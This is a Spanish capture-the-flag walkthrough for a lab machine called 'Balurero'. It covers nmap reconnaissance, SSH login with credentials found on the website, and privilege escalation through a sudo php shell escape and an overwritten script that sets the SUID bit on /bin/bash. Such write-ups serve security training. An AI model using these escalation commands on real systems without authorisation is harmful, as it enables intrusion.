 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  28/09/2024
---
```


# Balurero

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea una página sobre Balú el perro de Mario.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente y todos sus archivos encontramos en el `script.js` un mensaje que nos llama la atención.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Entramos a través del navegador a ese directorio.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tras encontrar sus credenciales nos logueamosa tavés de **SSH**.

```bash
ssh balu@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **php** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/php/)cómo explotarlo.

```bash
sudo -u chocolate php -r "system('/bin/bash');"
```

Somos el usuario **chocolate** pero no tenemos permisos **SUDO**.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando los directorios encontramos un archivo llamado `script.php` por lo que miramos si se puede modificar para obtener una **shell**.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
echo -e "<?php\n\tsystem('chmod u+s /bin/bash');\n?>" > /opt/script.php
bash -p
```

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

